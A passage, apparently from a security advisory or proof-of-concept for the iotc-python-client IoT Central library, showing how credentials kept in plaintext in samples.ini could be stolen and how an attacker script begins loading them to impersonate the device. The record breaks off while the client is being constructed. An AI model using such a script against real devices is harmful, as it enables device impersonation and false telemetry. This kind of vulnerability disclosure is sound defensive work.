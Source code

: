   2. **Step 1: Create `samples.ini` with plaintext credentials:**
     - Navigate to the `samples` directory of the `iotc-python-client` project.
     - Create a file named `samples.ini` with the following content, replacing placeholders with your actual IoT Central credentials:
       ```ini
       [DEFAULT]
       Local = no

       [DEVICE_M3]
       ScopeId = <YOUR_SCOPE_ID>
       DeviceId = <YOUR_DEVICE_ID>
       DeviceKey = <YOUR_DEVICE_KEY>
       HubName = <YOUR_HUB_NAME>  ; Optional, can be left blank for DPS to resolve
       ModelId = <YOUR_MODEL_ID> ; Optional, if you have a device template
       ```
     - **Important:** Ensure `DeviceKey` is your actual device key in plaintext.

  3. **Step 2: Simulate Attacker Access:**
     - Assume an attacker gains access to the machine where `samples.ini` is stored and copies the `samples.ini` file. The attacker now has the plaintext credentials.

  4. **Step 3: Attacker Impersonates Device and Sends Malicious Telemetry:**
     - In a separate attacker's environment (or same environment, different directory), create a Python script (e.g., `attacker_script.py`) that uses the `iotc` library and the stolen credentials from `samples.ini`.
     - `attacker_script.py` (example):
       ```python
       import os
       import asyncio
       import configparser
       import sys
       from random import randint
       from iotc.models import Property, Command
       from iotc.aio import IoTCClient
       from iotc import IOTCConnectType, IOTCLogLevel, IOTCEvents

       config = configparser.ConfigParser()
       config.read('samples.ini') # Assuming attacker has copied samples.ini

       device_id = config["DEVICE_M3"]["DeviceId"]
       scope_id = config["DEVICE_M3"]["ScopeId"]
       key = config["DEVICE_M3"]["DeviceKey"]

       class MemStorage: # Dummy storage
           def retrieve(self): return None
           def persist(self, credentials): return None

       client = IoTCClient(
           device_id,
           scope_id,
           IOTCConnectType.IOTC_CONNECT_DEVICE_KEY,
           key,
           storage=MemStorage(),
       )
